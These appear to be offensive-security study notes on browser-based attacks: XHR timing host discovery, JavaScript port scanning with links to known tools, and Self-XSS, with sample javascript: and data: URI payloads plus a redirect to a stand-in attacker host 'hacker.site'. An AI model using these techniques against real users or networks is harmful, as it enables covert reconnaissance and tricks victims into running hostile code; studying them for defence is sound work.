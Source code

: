 Instead of testing only a couple of IPs, we will check the entire subnet.

**XHR** technique:
- if a response arrives in a short amount of time then the host is alive; otherwise, after a defined threshold, the host is down.
- Since this approach is time based, network latencies, browser networking characteristics, etc. may increase the number of false positives.

### Port Scanning
PDP portscan in JS: http://web.archive.org/web/20100626084549/http:/www.gnucitizen.org/static/blog/2006/08/jsportscanner.js

```bash
- PDP uses <img> tag and DOM events to detect whether a port on a specific host is opened or closed.
- The idea is to set the image source on a specific port of the target host in order to let the browser know to perform a TCP connection to the defined port and then analyze the events.

- with Cross-Origin Resource Sharing (CORS) and WebSocket, both of which are new HTML5 features, its also possible to scan networks and ports.
- JS-Recon  = http://web.archive.org/web/20120308180633/http:/www.andlabs.org/tools/jsrecon/jsrecon.html
# a network reconnaissance tool writen in JavaScript
```


### Self-XSS
- In this attack, the goal is to trick victims into pasting malicious code into a browser URL bar or console.

Example: http://www.zdnet.com/facebook-flooded-with-porn-spam-3040094432/

## Bypass

### browsers based on Chromium strip the javascript part.
```js
# So we can copy and paste <enter>
# Or we can drag and drop 
JavaScript:alert('Self-XSS')

# Using Data Scheme works with the same methods
data:text/html,<script>alert('Self-XSS')</script>

# We can encode the script with Base64. It works the same.
```

### Based on Firefox 
- Mozilla Firefox disallows access to the security context of the currently loaded page if that access is attempted by javascript or data-scheme URIs entered directly into the browsers location bar.
- Anyway its possible to execute redirects or other malicious operations with both schemes.


Redirect to hacker.site with **javascript** scheme:
```js
javascript:{this.window='<script>document.location="http://hacker.site"</script>'};
```

